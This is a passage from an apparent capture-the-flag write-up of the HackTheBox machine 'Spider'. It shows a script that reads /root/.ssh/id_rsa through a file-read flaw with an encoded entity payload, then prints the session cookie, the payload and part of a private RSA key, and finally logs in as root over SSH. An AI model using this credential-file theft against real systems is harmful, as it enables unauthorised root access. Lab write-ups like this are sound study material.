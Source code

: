 

This will use `pup` to get the text from the welcome tag, and `sed` to
remove the welcome text. It also prints messages to stderr so that I
could redirect stdout to a file to get just the file locally.

### SSH

There's an SSH key in `/root/.ssh`:



    oxdf@parrot$ bash read-file.sh /root/.ssh/id_rsa
    [+] Got cookie: .eJxtjrtugzAYRl-lYu5gSLJEykKwSZza1MYX8AZyJBJ-CC1IuSnvXjp06_jpO0c6zwBuHQTrZ_BWB-tAY048vinRUiPt1JsutEfL7vXOnSpNliodYq_DRBSSmUR-iGhYVISSTEsru5vUwLdHu79nKqayZ8vcGKtCR2piCo32VwtNxjCkCgbDDE0N4XHdXh95704sJJFKV9mxI0lWxJU8w6p8UFJDPLLtJAQySM383Kc5nkSOh6g8c3lAfBDWU4Hw0rY-ZQR-_3mTPtc8dggSoZrW4tVYRiisUlqYfDrUQMfywSUP4yRT5MzArcouTD0Z_vOb2e-s8blPScG3E5c7H5WmyRxAoXvZmIf4FhH88YwBvTjsydz35RfuXCuIHBboU2w2wes9GC6nfhqDNXr9AEzMfps.YKLoCA.TTzUd0uj4a9H1eDGdwMkMSd2ibI
    b'{"lxml":{" b":"UENFdExTQkJVRWtnVm1WeWMybHZiaUF4TGpBdU1DQXRMVDRLQ2p3aFJFOURWRmxRUlNCeWIyOTBJRnM4SVVWT1ZFbFVXU0IwWlhOMElGTlpVMVJGVFNBbkwzSnZiM1F2TG5OemFDOXBaRjl5YzJFblBsMCtQQ0V0TFNBdExUNEtQSEp2YjNRK0NpQWdJQ0E4WkdGMFlUNEtJQ0FnSUNBZ0lDQThkWE5sY201aGJXVStKblJsYzNRN1BDOTFjMlZ5Ym1GdFpUNEtJQ0FnSUNBZ0lDQThhWE5mWVdSdGFXNCtNRHd2YVhOZllXUnRhVzQrQ2lBZ0lDQThMMlJoZEdFK0Nqd3ZjbTl2ZEQ0PQ=="},"points":0}'

    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAl/dn2XpJQuIw49CVNdAgdeO5WZ47tZDYZ+7tXD8Q5tfqmyxq
    gsgQskHffuzjq8v/q4aBfm6lQSn47G8foq0gQ1DvuZkWFAATvTjliXuE7gLcItPt
    iFtbg7RQV/xaTwAmdRfRLb7x63TG6mZDRkvFvGfihWqAnkuJNqoVJclgIXLuwUvk
    4d3/Vo/MdEUb02ha7Rw9oHSYKR4pIgv4mDwxGGL+fwo6hFNCZ+YK96wMlJc3vo5Z
    EgkdKXy3RnLKvtxjpIlfmAZGu0T+RX1GlmoPDqoDWRbWU+wdbES35vqxH0uM5WUh
    vPt5ZDGiKID4Tft57udHxPiSD6YBhLT5ooHfFQIDAQABAoIBAFxB9Acg6Vc0kO/N
    krhfyUUo4j7ZBHDfJbI7aFinZPBwRtq75VHOeexud2vMDxAeQfJ1Lyp9q8/a1mdb
    ...[snip]...



It works to get a shell as root:



    oxdf@parrot$ ssh -i ~/keys/spider-root root@10.10.10.243
    Last login: Mon May 17 16:35:28 2021 from 10.10.14.7
    root@spider:~# 







